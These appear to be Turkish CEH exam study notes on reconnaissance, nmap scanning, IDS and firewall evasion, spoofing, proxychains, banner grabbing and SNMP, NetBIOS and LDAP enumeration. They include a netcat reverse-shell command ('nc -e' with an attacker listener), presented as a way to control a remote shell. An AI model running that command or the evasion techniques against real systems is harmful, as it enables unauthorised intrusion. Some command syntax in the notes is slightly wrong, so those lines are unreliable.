\- Bazıları bunu, sunucunun istemciye geri gönderdiği meta veriler olan hizmet banner'ları için bir arama motoru olarak da tanımlamıştır. 

\- Shodan temel, tek terimli aramalarla iyi çalışır. İşte kullanabileceğiniz temel arama filtreleri: 

**o şehir**: belirli bir şehirdeki cihazları bulun 

**o ülke**: belirli bir ülkedeki cihazları bulun 

**o coğrafi**: koordinatları iletebilirsiniz 

**o hostname**: hostname ile eşleşen değerleri bulun 

**o net:** bir IP veya /x CIDR'ye göre arama yapın 

**o os:** bir işletim sistemine dayalı arama 

**o port:** açık olan belirli portları bulun 

**o before/after:** bir zaman dilimi içinde sonuçları bulun 

**Censys** 

Shodan alternatifi.  

**2.Tarama ve Numaralandırma** 

**Ağ Taraması** - Ağdaki sistemleri (ana bilgisayarlar, anahtarlar, sunucular, yönlendiriciler, güvenlik duvarları vb. olabilir) bulma ve hangi bağlantı noktalarının açık olduğuna, ayrıca çalışan uygulamalara\/hizmetlere ve bunların ilgili sürümlerine bakma. 

**Genel olarak ağ taramasının üç ana hedefi vardır:** 
**

**
`        `1. Canlı cihazlar, işletim sistemi, kullanımdaki IP'ler için tarama.  

`            `o Sunucu 192.168.60.30  

`        `2. Açık/kapalı Bağlantı Noktalarını arıyor.  

`            `o 192.168.60.30 sunucusunda,  

`        `3 çalıştıran TCP bağlantı noktası 23 (Telnet) vardır. Taranan hizmetlerdeki güvenlik açıklarını arayın. o Telnet hizmeti açık metindir ve birçok güvenlik açığı yayınlanmıştır 

**Bağlantısız İletişim** - UDP paketleri bağlantı oluşturulmadan gönderilir. Örnek olarak TFTP, DNS (yalnızca aramalar) ve DHCP verilebilir 

**Bağlantı Odaklı İletişim** - TCP paketleri, iletilen verilerin boyutu nedeniyle ve teslim edilebilirliği sağlamak için bir bağlantı gerektirir 

Tarama Metodolojisi 

• Canlı sistemleri kontrol edin - Canlı ana bilgisayarları belirlemek için ping veya başka bir yol 

• Açık bağlantı noktalarını kontrol edin - Canlı ana bilgisayar IP'lerini öğrendikten sonra, dinleme bağlantı noktaları için bunları tarayın 

• IDS'nin ötesinde tarama - Gerekirse, algılama sistemlerinin ötesinde tarama yapmak için yöntemler kullanın; proxy'ler, adres sahteciliği, parçalanmış paketler vb. kullanarak IDS'den kaçınma 

• Banner yakalama gerçekleştirin - Sunuculardan alın ve işletim sistemi parmak izi alın (çalışan hizmetlerin sürümleri) gerçekleştirin 

• Güvenlik açıklarını tarayın - Açık sistemlerin güvenlik açıklarına bakmak için araçları kullanın 

• Ağ diyagramları çizin - Ağlara giden mantıksal ve fiziksel yolları gösterir 

• Proxy'leri kullanın - Sizi gizli tutma çabalarını gizler 

• Pentest Raporu - Bulduğunuz her şeyi belgeleyin 

Hedeflerin Belirlenmesi 

• Canlı sistemleri taramanın en kolay yolu ICMP'dir. 

• Eksiklikleri vardır ve bazen gerçekten canlı olan ana bilgisayarlarda engellenir. 

• Mesaj Türleri ve İadeleri  

`        `o Bir ICMP mesajının yükü herhangi bir şey olabilir; RFC hiçbir zaman olması gerekeni belirlemedi. Gizli kanallara izin verir 

`        `o Ping süpürme - alt ağdaki birden fazla ana bilgisayarı tanımlamak için en kolay yöntem. Bash Script (Linux) veya PowerShell (Windows) gibi komut dosyası dilleriyle ping süpürmeyi otomatikleştirebilir veya Advanced IP Scanner, Angry IP Scanner, Nmap gibi yazılımları 

`        `o ICMP Yankı taraması - ağ IP adresine ICMP Yankı İsteği gönderme kullanabilirsiniz. 

`        `o Kod 13 olan tip 3'ün ICMP dönüşü, kötü yapılandırılmış bir güvenlik duvarını gösterir 

`        `**o Ping tarama araçları**   

**▪ Nmap** 

`        `▪ nmap -sn 192.168.1.0\/24  

`        `▪ Bu komut -sn bayrağı (ping taraması) kullanır. Bu, saniyeler içinde bu alt ağdaki 256 IP adresi üzerinde ping taraması gerçekleştirir ve hangi ana bilgisayarların çalıştığını gösterir. 

▪ **hping3**  

`        `▪ hping -1 10.0.0.x --rand-dest -I eth0 ▪ -1 --> ICMP mode  

`        `▪ --rand-dest --> random destionation address mode  

`        `▪ -I --> network interface name 

▪ Angry IP Scanner  

▪ Solar-Winds Engineer Toolkit 

▪ Advanced IP Scanner  

▪ Pinkie 

`    `o Nmap, siz kapatmadığınız sürece neredeyse her zaman taramalarla ping taraması yapar. 

Port Keşfi - Temel Kavramlar 

• Yukarıdaki bilgisayar korsanı, sunucudaki 80 numaralı bağlantı noktasına bir SYN paketi gönderir.  

`        `o Sunucu SYN-ACK paketini döndürürse = bağlantı noktası açıktır  

`        `o Sunucu RST (sıfırlama) paketi döndürürse = bağlantı noktası kapalıdır 

**Durum Bilgisi Olan Güvenlik Duvarı'nın mevcut olup olmadığını kontrol etme:** 

`            `• Yukarıdaki bilgisayar korsanı, ilk etkileşimde bir ACK segmenti / paketi gönderir (üç yönlü el sıkışma olmadan).  

`                    `o Sunucu yanıt döndürmüyorsa, durum bilgisi olan bir güvenlik duvarının uygun oturumları işleyebileceği anlamına gelir.  

`                    `o Sunucu RST paketi döndürürse, durum bilgisi olan bir güvenlik duvarı olmadığı anlamına gelir. 

**"Bu, yalnızca nmap kullanılarak kolayca elde edilebilir."** 

TCP Flags 

Flag              Açınımı                                            Tanımlama 

SYN         Synchronize            İlk iletişim sırasında ayarlayın. Parametrelerin ve sıra numaralarının                                                           müzakere edilmesi     

ACK        Acknowledgment     SYN bayrağı için bir onay olarak ayarlayın. Her zaman ilk SYN'den                                                            sonra ayarlanır. 

RST               Reset                Bir bağlantının her iki yönden de sonlandırılmasını zorlar. 

FIN                Finish                İletişime yakın bitirmeye teklif  

PSH                Push                Arabelleğe alma endişesi olmadan verilerin teslimini zorlar 

URG               Urgent             İçerideki veriler bant dışına gönderiliyor. Örnek olarak bir ileti                  iptal ediliyor.

**Nmap**

**"CEH sınavı kesinlikle Nmap sorularını, anahtarları ve belirli bir tarama türünün nasıl gerçekleştirileceğini kapsayacaktır."** 

**"Nmap'i kendi sanal ortamınızda denemeniz ve keşfetmeniz şiddetle tavsiye edilir"** 

Nmap ('Ağ Eşleştirici'), ağ keşfi ve güvenlik denetimi için ücretsiz ve açık kaynaklı (lisans) bir yardımcı programdır. Birçok sistem ve ağ yöneticisi, ağ envanteri, servis yükseltme zamanlamalarını yönetme ve ana bilgisayar veya hizmet çalışma süresini izleme gibi görevler için de yararlı bulur. Nmap, ağda hangi ana bilgisayarların mevcut olduğunu, bu ana bilgisayarların hangi hizmetleri (uygulama adı ve sürümü) sunduğunu, hangi işletim sistemlerini (ve işletim sistemi sürümlerini) çalıştırdıklarını, ne tür paket filtrelerinin / güvenlik duvarlarının kullanımda olduğunu ve düzinelerce başka özelliği belirlemek için ham IP paketlerini yeni şekillerde kullanır. 

Nmap Tarama Türleri 

Gizli Tarama 

Yarı açık tarama veya SYN taraması - yalnızca SYN paketleri gönderilir. Yanıtlar tam olarak aynı. 

`        `• Çabaları gizlemek ve güvenlik duvarlarından kaçmak için kullanışlıdır. 

`        `**•  nmap -sS <target IP>** 

**Tam Bağlantı** 

TCP bağlantısı veya tam açık tarama. İlk iki adım (SYN ve SYN/ACK) SYN taraması ile tamamen aynıdır. Daha sonra, bir RST paketiyle yarı açık bağlantıyı iptal etmek yerine, krad SYN / ACK'yı kendi ACK paketiyle onaylar ve bağlantıyı tamamlar. 

**
`        `• Tam bağlantı ve sonra RST ile bağlantı kopar.  

`        `• Tespit edilmesi en kolay, ancak en güvenilir. 

`        `**•  nmap -sT <target IP>** 

TCP ACK tarama / flag prob - Çoklu yöntemler 

`        `• TTL version - if TTL of RST packet < 64, port is open 

`        `• Pencere sürümü - RST paketindeki Pencere 0'dan başka bir şeyse, bağlantı noktası açık demektir. 

`        `**• Filtrelemeyi kontrol etmek için kullanılabilir. ACK gönderilirse ve yanıt yoksa, durum bilgisi olan güvenlik duvarı mevcut demektir.** 

`        `• nmap -sA (ACK scan) 

`        `• nmap -sW (Window scan) 

NULL, FIN and Xmas Tarama 

**"FIN, URG veya PSH bayrağı kullanır."** 

`    `**• Açık yanıt vermez. Kapalı RST / ACK verir.** 

`    `• nmap -sN (Null scan) 

`    `• nmap -sF (FIN scan) 

`    `**• Xmas Taraması** - FIN, PSH ve URG bayraklarını ayarlayarak paketi bir Noel ağacı gibi aydınlatır. 

`            `o Yanıtlar Ters TCP taraması ile aynıdır.  

`            `o Windows makinelerine karşı çalışmıyor. 

`            `o nmap -sX <target IP> 

**"Bu tarama türlerinin (NULL, FIN veya Xmas taraması) en önemli avantajı, durum bilgisi olmayan bazı güvenlik duvarlarından ve paket filtreleme yönlendiricilerinden gizlice geçebilmeleridir."** 

IDLE Tarama 

Bir portun açık olup olmadığını kontrol etmek için üçüncü bir taraf kullanır. 

`            `• Bir yanıt olup olmadığını görmek için IPID'ye bakar.  

`            `• Yalnızca üçüncü taraf veri aktarmıyorsa çalışır.  

`            `• Üçüncü tarafa IPID kimliğini kontrol etmesi için bir istek gönderir; daha sonra üçüncü tarafın iadesiyle hedefe sahte bir paket gönderir; IPID'nin artıp artmadığını kontrol etmek için üçüncü tarafa tekrar bir istek gönderir.  

`                    `o IPID 1 artışı portun kapalı olduğunu gösterir. 

`                    `o IPID 2 artışı  port açık olduğunu gösterir.  

`                    `o IPID artışı daha büyük bir şey üçüncü tarafın boşta olmadığını gösterir. 

`            `**• nmap -sI <zombie host> <target IP>** 

**Spoofing** 

`        `• Decoy:  

`            `o nmap -Pn -D  

`                   `▪ This will perform a spoofed ping scan 

`        `• Source Address Spoofing:  

`            `o nmap -e -S  

`                    `▪ Example --> nmap -e eth0 -S 10.0.0.140 10.0.0.165 

`        `• MAC Address Spoofing:  

`            `o nmap --spoof-mac  

`                `▪ Example --> nmap --spoof-mac Cis 10.0.0.140 

**"Tuzaklar, IP adresinizle birlikte sahte IP adresi gönderir."** 
**

**Güvenlik Duvarı Atlatma**
**

**Birden çok Aldatıcı IP adresi:** 

`        `o Bu komut, birden çok aldatıcı IP adresini taramak için kullanılır. N**map, saldırganınızın IP adresiyle birlikte farklı IP adreslerine sahip birden fazla paket gönderir.**
**
`        `o nmap -D RND: 

`                `▪ Example --> nmap -D RND:10 192.168.62.4

**IP Parçalanması** 
**

`     `o Küçük parça paketlerini taramak için kullanılır. 

`        `o nmap -f (target) 

Maximum İletim Ünitesi  

o Bu komut, bir seferde bir tam paket göndermek yerine daha küçük paketler iletmek için kullanılır. 

o nmap -mtu 8 

▪ Maximum Transmission Unit (-mtu) and 8 bytes of packets. 

Zamanlama ve Performans 

• Paranoyak  

o Paranoyak (0) İzinsiz Giriş Algılama Sisteminden kaçınma  

**o nmap (target) -T0**  

• Sinsi  

o <target> Sinsi (1) İzinsiz Giriş Algılama Sistemi kaçınma  

**o nmap <target> -T1**  

• Kibar  

o Kibar (2) daha az bant genişliği kullanmak ve daha az hedef makine kaynağı kullanmak için taramayı yavaşlatır  

**o nmap (target) -T2**  

• Normal  

o Normal (3) varsayılan hız  

**o nmap <target> -T3**  

• Agresif  

o Agresif (4) hız taramaları; makul derecede hızlı ve güvenilir bir ağda olduğunuzu varsayar  

**o nmap <target>  -T4**  

• Insane  

o Insane (5) hız taraması; olağanüstü hızlı bir ağda olduğunuzu varsayar  

**o nmap <target> -T5** 

UDP Scan 

En popüler hizmetler TCP üzerinden çalışır, ancak UDP kullanan birçok yaygın hizmet vardır: DNS (53), SMTP (25), DHCP (67), NTP (123), NetBIOS-ssn (137), vb. 

• nmap -sU (target) 

Hangi UDP portunu da belirtebilirsiniz::  

• nmap -sU -p U:53, 123 (target)  

Ayrıca, port özellikleriyle hem TCP hem de UDP taramasını başlatabilirsiniz: 

• nmap -sU -sS -p U:53,123 T:80,443 (target) 

Switch Listesi 

 

Notlar:  

• Nmap varsayılan olarak T3 düzeyinde çalışır (3 - Normal).  

• Nmap varsayılan TCP taramaları ile çalışır.  

• Varsayılan olarak port taramasından önce hedefe ping yapın, ancak hedefin bir güvenlik duvarı varsa, tarama engellenebilir.  

Bunu önlemek için, ping'i devre dışı bırakmak için - Pn'yi kullanabilirsiniz.  

• LAN'daysanız ve ARP ping'i devre dışı bırakmanız gerekiyorsa, şunu kullanın:  

o --disable-arp-ping  

• Harici ana bilgisayarlar\/ağlar listelerinden bir giriş ekleyebilirsiniz:  

o -iL host-example.txt  

• **Parmak izi alma** - port sweep ve numaralandırma için başka bir kelime. 

Nmap adına daha kullanışlı bilgiler: 

2.Servis ve Versiyon Tespit Etme 

3.İşletim Sistemi Tespit Etme 

 

4.Zamanlama ve Performans 

 

5.NSE Scripts 

NSE, Nmap Scripting Engine anlamına gelir ve temel olarak varsayılan Nmap özelliklerini geliştirmeye ve sonuçları geleneksel bir Nmap çıktısında raporlamaya yardımcı olan dijital bir Nmap komut dosyası kütüphanesidir. NSE ile ilgili en iyi şeylerden biri, kullanıcıların kendi komut dosyalarını yazmalarına ve paylaşmalarına izin verme yeteneğidir, bu nedenle Nmap varsayılan NSE komut dosyalarına güvenmekle sınırlı değilsiniz. 

 

 

Kullanışlı NSE Scripts Örnekleri  

hping 

hping3, Tcl dilini kullanan komut dosyası oluşturulabilir bir programdır, böylece paketler, paketleri tanımlayan ikili veya dize gösterimi aracılığıyla alınabilir ve gönderilebilir. 

• Başka bir güçlü ping sweep ve port tarama aracı  

• Ayrıca UDP / TCP paketleri oluşturabilir  

• TCP flood yapabilirsiniz  

• hping3 -1 IP adresi 

 

Kaçınma Kavramları 

• IDS'den kaçınmak için bazen tarama şeklinizi değiştirmeniz gerekir  

• Bir yöntem paketleri parçalamaktır (nmap -f anahtarı)  

• İşletim Sistemi Parmak İzi alma  

o Aktif - hazırlanmış paketleri hedefe gönderme  

o Pasif - TTL pencereleri, DF bayrakları ve ToS alanları gibi şeyler için ağ trafiğini koklama  

• Kimlik sahtekarlığı - yalnızca makinenize geri yanıt beklemediğinizde kullanılabilir  

• Kaynak yönlendirme - bir paketin ağda alması gereken yolu belirtir; çoğu sistem artık buna izin vermiyor  

• IP Adresi Aldatmacası - saldırının gerçekte nereden geldiği konusunda IDS / Güvenlik Duvarı'nı karıştırmak için IP'nizden paketler ve diğer birçok aldatmaca gönderir. 

o nmap -D RND:10 x.x.x.x  

o nmap -D decoyIP1, decoyIP2...., sourceIP, .... [target] 

**• Proxy** - başka bir bilgisayardan filtre uygulayarak gerçek kimliği gizler. Ayrıca, içerik engelleme kaçınma vb. gibi başka amaçlar için de kullanılabilir.  

o Proxy Chains- birden fazla proxy'yi birbirine zincirleme.  

▪ Proxy Switcher  

▪ Proxy Workbench  

▪ ProxyChains  

• Tor - bir hedefe birden fazla atlama kullanan belirli bir proxy türü; uç noktalar eş bilgisayarlardır.  

• Anonimleştiriciler - HTTP trafiğindeki kimliği gizler. (bağlantı noktası 80) 

Banner Grabbing 

Banner kapma, işletim sistemi veya belirli sunucu bilgileri (web sunucusu, posta sunucusu vb.) hakkında bilgi almak için kullanılabilir. 

• **Aktif** - işletim sistemini belirlemek için özel hazırlanmış paketler göndermek ve yanıtları karşılaştırmak  

• **Pasif** - hata mesajlarını okumak, trafiği sniff etmek veya sayfa uzantılarına bakmak  

• Banner yakalamanın kolay yolu, portta ki **telnet** üzerinden bağlanmaktır (örneğin, web sunucusu için 80)  

• **Netcat** aracı 

o TCP/IP korsanlığının 'İsviçre çakısı'  

o Bir hedef üzerindeki remote shell üzerinde her türlü kontrolü sağlar  

o nc -e <IP address> <Port>   

o  Saldırı makinesinden nc -l -p 5555 üzerinde bir dinleme portu açar  

o TCP veya UDP üzerinden, herhangi bir port üzerinden bağlanabilir  

o DNS iletme, port eşleme ve iletme ve proxyleme sunar 

Netcat banner grab için kullanılabilir: 

▪ nc <IP address or FQDN> <port number> 

Netcat üzerinden banner grab örnekleri - extracting request HTTP header 

 

**Güvenlik Açığı Kategorileri** 

`            `• **Yanlış yapılandırma** - bir hizmeti veya uygulamayı yanlış yapılandırma. 

`            `• **Varsayılan yükleme** - varsayılan olarak gelen bir uygulamadaki ayarların değiştirilmemesi. 

`            `• **Arabellek taşması** **(Buffer Overflow)** - kod yürütme hatası. 

`            `• **Eksik yamalar** - yamalanmamış sistemler. 

`            `• **Tasarım kusurları** - şifreleme ve veri doğrulama gibi sistem tasarımına özgü kusurlar. 

`            `• **İşletim Sistemi Kusurları** - her işletim sistemine özgü kusurlar. 

`            `• **Varsayılan parolalar** - sistem/uygulama ile birlikte gelen varsayılan parolaları bırakma. 

**“Güvenlik Açığı Değerlendirmesi - Güvenlik açıklarını tarar ve test eder, ancak kasıtlı olarak bunlardan yararlanmaz.”** 

**• Güvenlik açıklarını bulun, böylece onları kategorilere ayırabiliriz (İşletim Sistemi, Yanlış Yapılandırmalar, yama yönetimi, üçüncü taraf vb.)** 

**Güvenlik Açığı Yönetimi Yaşam Döngüsü** 

Güvenlik Açığı Yönetimi Yaşam Döngüsü, kuruluşların sistem güvenliği zayıflıklarını belirlemelerine olanak tanımayı amaçlamaktadır; varlıklara öncelik vermek; zayıflıkları değerlendirmek, raporlamak ve düzeltmek; ve ortadan kaldırıldıklarını doğrular. 

 

\1. Keşfet: Ağdaki tüm varlıkların envanterini çıkarın ve güvenlik açıklarını belirlemek için işletim sistemi ve açık hizmetler dahil olmak üzere host ayrıntılarını tanımlayın. Bir ağ temeli geliştirin. Güvenlik açıklarını düzenli olarak otomatik bir zamanlamayla belirleyin.  

\2. Varlıklara Öncelik Verin: Varlıkları gruplara veya iş birimlerine ayırın ve varlık gruplarına işletmeniz için kritik öneme sahip olmalarına göre bir iş değeri atayın.  

\3. Değerlendirme: Varlık kritikliğine, güvenlik açığı tehdidine ve varlık sınıflandırmasına dayalı riskleri ortadan kaldırabilmeniz için bir temel risk profili belirleyin. 

\4. Rapor: Güvenlik politikalarınıza göre varlıklarınızla ilişkili iş riski düzeyini ölçün. Bir güvenlik planını belgeleyin, şüpheli etkinlikleri izleyin ve bilinen güvenlik açıklarını tanımlayın.  

\5. Düzeltin: İş riskine göre güvenlik açıklarını önceliklendirin ve düzeltin. Denetimler oluşturun ve ilerlemeyi gösterin.  

\6. Doğrulayın: Takip denetimleri yoluyla tehditlerin ortadan kaldırıldığını doğrulayın. 

**Güvenlik Açığı Taraması** 

Güvenlik açıklarını belirlemek için bir hedefe karşı çalıştırılan karmaşık veya basit araçlar olabilir. 

• **Zafiyet değerlendirme araçları:** 

o Host-based  

o Depth-based (Fuzzer tools)  

o Application-layer tools (software, databases, etc)  

o Active scanning  

o Passive scanning  

o Scope tools 

• **Araçlar:** 

o Industry standard is Tenable's Nessus.  

o GFI LanGuard.  

o Nikto - CLI; is a web server assessment tool. It is designed to find various default and insecure files, configurations and programs on any type of web server.  

o OpenVAS - Best competitor to Nessus and is free.  

o wpscan - CLI; Scan WordPress websites.  

o MBSA - Microsoft Baseline Security Analyzer.  

o FreeScan - Well known for testing websites and applications.  

o Qualys 

CVSS ve CVE 

`  `• CVSS - Ortak Güvenlik Açığı Puanlama Sistemi 

`                    `o Sayısal puanı şiddete dayalı yerleştirilir. 

 

`            `• CVE – Ortak Güvenlik Açıkları ve Etkilenmeler 

`                    `o MITRE tarafından tutulan, genel olarak duyurulan güvenlik açıklarının ve etkilenmelerin bir listesidir. 

 

` `• NVD - Ulusal Güvenlik Açığı Veritabanı 

`                    `o NIST tarafından tutulan, MITRE CVE listesiyle tamamen senkronize edilmiş bir veritabanıdır; US Gov. güvenlik açıkları deposu. 

Proxy Zinciri 

 

**ProxyChains, ücretsiz olarak kullanılabilen açık kaynaklı bir yazılımdır ve Linux dağıtımının çoğu önceden yüklenmiştir. Kali Linux'un en son sürümünü kullanıyorsanız, önceden yüklenmiştir.**  

**ProxyChains, TCP (İletim Kontrol Protokolü) bağlantısını TOR, HTTP (S) ve SOCKS gibi proxy'lerin yardımıyla yönlendiren ve bir proxy zinciri sunucusu oluşturan bir araçtır.** 

ProxyChains Özellikleri:  

• SOCKS5, SOCKS4 ve HTTP / HTTPS CONNECT proxy sunucularını destekleyin.  

• Proxychains, bir listedeki farklı proxy türleriyle karıştırılabilir 

• Proxychains, aşağıdakiler gibi her türlü zincirleme seçenek yöntemini de destekler: rasgele, bir yapılandırma dosyasında depolanan listede rastgele bir proxy alır veya proxy'leri tam sıra listesinde zincirleme, farklı proxy'ler bir dosyada yeni bir satırla ayrılır. Ayrıca, Proxychains'in yalnızca canlı proxy'lerden geçmesine izin veren dinamik bir seçenek de vardır, genellikle akıllı seçenek olarak adlandırılan dinamik seçenek olan ölü veya ulaşılamayan proxy'leri hariç tutacaktır.  

• Proxychains, squid, sendmail gibi sunucularla kullanılabilir.  

• Proxychains, proxy üzerinden DNS çözümlemesi yapabilir.  

• Proxychains herhangi bir TCP istemci uygulamasını, yani nmap, telnet'i işleyebilir. 

Enumeration Kavramları 

Enumeration, bir sistemden **kullanıcı adlarını**, **makine adlarını**, **ağ kaynaklarını**, **paylaşımları** ve **hizmetleri** ayıklama işlemidir ve bunun intranet ortamında yürütülmesidir. 

• **E-posta kimliklerini kullanarak kullanıcı adları alın.** 

**• Varsayılan parolaları kullanarak bilgi alın.**  

**• SNMP kullanarak kullanıcı adları alın.**  

**• Brute force AD**  

**• Windows'tan kullanıcı grupları alın.**  

**• DNS zone aktarımlarını kullanarak bilgi alın.**  

**• NetBios, LDAP, NTP, DNS** 

Bu aşamada, saldırgan sistemle etkin bir bağlantı oluşturur ve hedef hakkında daha fazla bilgi edinmek için yönlendirilmiş sorgular gerçekleştirir. Toplanan bilgiler, sistem güvenliğindeki güvenlik açıklarını veya zayıf noktaları belirlemek için kullanılır ve Sistem kazanma aşamasında yararlanmaya çalışır. 

**• Belirli bir hedefte bulunan öğeleri listelemek olarak tanımlanır.**  

**• Doğası gereği her zaman aktiftir.**  

**• Doğrudan erişim.**  

**• Daha fazla bilgi edinin.** 

SNMP Enumeration 

SNMP numaralandırma, SNMP etkin bir bilgisayardaki kullanıcı hesaplarını ve aygıtlarını numaralandırma işlemidir. 

• SNMP hizmeti, SNMP aracısını yönetim istasyonundan (MIB) yapılandırmak ve bunlara erişmek için kullanılan iki parolayla birlikte gelir: 

**i. Read community string**  

**ii. Read/Write community string** 

• Bu dizeler (parolalar), tüm sistemler için aynı olan varsayılan bir değerle birlikte gelir. 

• Yönetici tarafından değiştirilmeden bırakılırsa saldırganlar için kolay giriş noktaları haline gelirler. 

Saldırganlar, hosts, routers, cihazlar, paylaşımlar gibi ağ kaynakları hakkında bilgi ayıklamak için SNMP'yi numaralandırır(...) ARP tabloları,routing tabloları, cihaza özgü bilgiler ve trafik istatistikleri gibi ağ bilgileri. 

**• Bağlantı noktası 161 UDP üzerinde çalışır.**  

• **Yönetim Bilgi Bankası (MIB) -** bilgileri depolayan veritabanı.  

• **Nesne Tanımlayıcıları (OID) -** MIB'de depolanan bilgilerin tanımlayıcıları.  

• **SNMP GET -** sistem hakkında bilgi alır.  

• **SNMP SET -** sistem hakkındaki bilgileri ayarlar.  

• **Nesne türleri:** 

**o Skaler - tek nesne.** 

**o Tablosal - birlikte gruplandırılabilen birden çok ilgili nesne.** 

• SNMP, parola olarak işlev gören topluluk dizelerini kullanır.  

• Salt okunur ve okunabilir yazma sürümü vardır.  

• Varsayılan salt okunur dize geneldir ve varsayılan okuma-yazma özeldir.  

• SNMP v3 kullanılmadığı sürece bunlar açık metin olarak gönderilir.  

**• CLI Araçları** 

`	`o snmp-check --> SNMP cihaz numaralandırıcısı Kali Linux makinesine önceden yüklenmiş olarak gelir; **snmp-check** çok çeşitli numaralandırmaları destekler: 

`		`▪ kişi ve kullanıcı hesapları  

▪ aygıtlar  

▪ etki alanı  

▪ donanım ve depolama bilgileri  

▪ hostname 

▪ IIS istatistikleri  

▪  UDP portları ve TCP bağlantılarını dinleme 

▪ motd (banner)  

▪ ağ arabirimleri ve ağ hizmetleri  

▪ routing bilgileri  

▪ vb. 

o **Metasploit module** snmp\_enum 

o snmpwalk 

**• GUI Araçları:** 

o Engineer's Toolset  

o SNMPScanner  

o OpUtils 5  

o SNScan 

SNScan Örneği 

**Not: Taranan ilk öğe SNMP çalıştıran bir yazıcıdır.** 

 

Windows Sistem Temelleri 

• Her şey bir hesap bağlamında çalışır  

• **Güvenlik Bağlamı -** kullanıcı kimliği ve kimlik doğrulama bilgileri  

**• Güvenlik Tanımlayıcısı (SID) -** bir kullanıcıyı, grubu veya bilgisayar hesabını tanımlar  

**• Kaynak Tanımlayıcısı (RID) -** SID'nin belirli bir kullanıcıyı, grubu veya bilgisayarı tanımlayan kısmı  

• SID'nin sonu kullanıcı numarasını gösterir; 

o Example SID: S-1-5-21-3874928736-367528774-1298337465-500  

**o Administrator Account** - SID of 500 

`	`▪ Yerel kullanıcının SID'sini almak için komut: 

`		`**▪ wmic useraccount where name='username' get sid** 

**o Regular Accounts -** start with a SID of 1000 

**o Linux Systems** used user IDs (UID) and group IDs (GID). Found in /etc/passwd 

**• SAM Veritabanı** - tüm yerel parolaların depolandığı dosya (encrypted) 

`	`o Stored in C:\Windows\System32\Config 

**• PowerShell veya CmdPrompt'ta Linux Numaralandırma Komutları** 

`	`**o finger-** kullanıcı ve ana makine hakkında bilgi.  

**o rpcinfo** ve **rpcclient -** ortamdaki RPC hakkında bilgi.  

**o showmount -** makinedeki tüm paylaşılan dizinleri görüntüler. 

**• Paylaşım kaynaklarını arayın (NetBIOS):** 

`	`o net view \\sysName 

**• Windows SysInternals**, yönetmek, tanılamak, sorun gidermek ve izlemek için teknik kaynaklar ve yardımcı programlar sunan bir web sitesi ve pakettir. 

`	`o <https://docs.microsoft.com/en-us/sysinternals/downloads/> 

`	`o Numaralandırma için çok sayıda kaynak, Windows yönetim araçları, vb. 

NetBIOS Enumeration 

• NetBIOS, ad hizmeti, bağlantısız iletişim ve bazı Oturum katmanı öğeleri sağlar.  

• Windows'taki tarayıcı hizmeti, etki alanı veya TCP/IP ağ kesimindeki tüm makineler hakkında bilgi barındırmak üzere tasarlanmıştır. 

• NetBIOS adı, aygıtları tanımlamak için kullanılan **16 karakterlik bir ASCII dizesidir.** 

Enumerating NetBIOS 

`	`• Hedefin hangi işletim sistemini kullandığını ve hangi portların açık olduğunu kontrol etmek için nmap veya zenmap kullanabilirsiniz: 

`		`o nmap –0 <target> 

• Herhangi bir **UDP portu 137** veya **TCP bağlantı noktası 138/139** açıksa, hedefin bir tür NetBIOS hizmeti çalıştırdığını varsayabiliriz. 

• Windows'ta **nbtstat** komutu:  

**nbtstat**, TCP/IP üzerinden NetBIOS kullanarak protokol istatistiklerini ve geçerli TCP/IP bağlantılarını görüntüler. 

**• nbtstat** kendi bilgilerinizi verir.  

**• nbtstat –a** uzak makinenin isim tablosunun adını veren bir liste.  

• **nbtstat -A** IP adresini vererek uzak makinenin isim tablosunu listeler.  

• **nbtstat -n** yerel tablo verir.  

• **nbtstat -c** önbellek bilgilerini verir. 

• NetBIOS ad çözümlemesi IPv6'da çalışmıyor. 

**• NetBIOS numaralandırma için diğer araçlar:** 

**o SuperScan**  

**o Hyena**  

**o NetBIOS Enumerator (is a nbtstat with GUI)**  

**o NSAuditor** 

Linux Sistem Temelleri 

• Enum4linux, **Windows ve Samba sistemlerinden bilgi numaralandırmak için bir araçtır:** 

`	`o enum4linux -u CEH -p Pa55w0rd -U 10.0.2.23  

▪ -u Username, -p Password, -U users information 

o Temel özellikler: 

`	`▪ RID döngüsü (Windows 2000'de RestrictAnonymous 1 olarak ayarlandığında) 

`	`▪ Kullanıcı listesi (Windows 2000'de RestrictAnonymous 0 olarak ayarlandığında) 

`	`▪ Grup üyeliği bilgilerinin listelenmesi.  

▪ Paylaşım numaralandırması.  

▪ Ana bilgisayarın bir çalışma grubunda mı yoksa etki alanında  mı olduğunu algılama  

▪ Uzak işletim sistemini tanımlama.  

▪ Parola ilkesi alma. (polenum kullanarak) 

• **finger** --> who is currently logged in, when and where.  

• Login Name Tty Idle Login Time Office Office Phone  

• kali Kali tty7 10:09 Sep 1 14:14 (:0)  

•  

• w --> Show who is logged on and what they are doing.  

• 00:27:15 up 9:32, 1 user, load average: 0.06, 0.09, 0.09  

• USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT  

• kali tty7 :0 14:16 10:11m 30.26s 2.09s xfce4- session 

**“Linux mimarisi ve komutları bir sonraki modülde daha sonra ele alınacaktır.”** 

**LDAP Numaralandırması** 

**389 ve 636 numaralı TCP bağlantı noktalarında çalışır (SSL üzerinden)** 

- 389'da bir Dizin Sistemi Aracısına (DSA) bağlanır 

- Geçerli kullanıcı adları, etki alanı bilgileri, adresler, telefon numaraları, sistem verileri, organizasyon yapısı ve diğer öğeler gibi bilgileri döndürür 
- Hedef sistemin LDAP servislerini kullanıp kullanmadığını belirlemek için, nmap'i TCP bağlantısı/Tam tarama için -sT bayrağı ve işletim sistemi tespiti için -O bayrağı ile kullanabilirsiniz. 

sudo nmap -sT -O <hedef IP adres> 

|PORT |STATE |SERVICE |
| :- | :- | :- |
|53/tcp |open |domain |
|88/tcp |open |kerberos-sec |
|135/tcp |open |msrpc |
|139/tcp |open |netbios-ssn |
|389/tcp |open |ldap <-------------------------------------- |
|445/tcp |open |microsoft-ds |
|464/tcp |open |kpasswd5 |
|593/tcp |open |http-rpc-epmap |
|636/tcp |open |ldapssl <-------------------------------------- |
|3268/tcp |open |globalcatLDAP |
|3269/tcp |open |globalcatLDAPssl |
|49154/tcp |open |unknown |
|49155/tcp |open |unknown |
|49157/tcp |open |unknown |
|49158/tcp |open |unknown |
|49159/tcp |open |unknown |
MAC Address: 00:00:11:33:77:44 

Running: Microsoft Windows 2012 

OS CPE: cpe:/o:microsoft:windows\_server\_2012:r2 

OS details: Microsoft Windows Server 2012 or Windows Server 2012 R2 Network Distance: 1 hop 

**LDAP Keşif için Araçlar** 

- Softerra 
- JXplorer 
- Lex 
- LDAP Admin Tool 

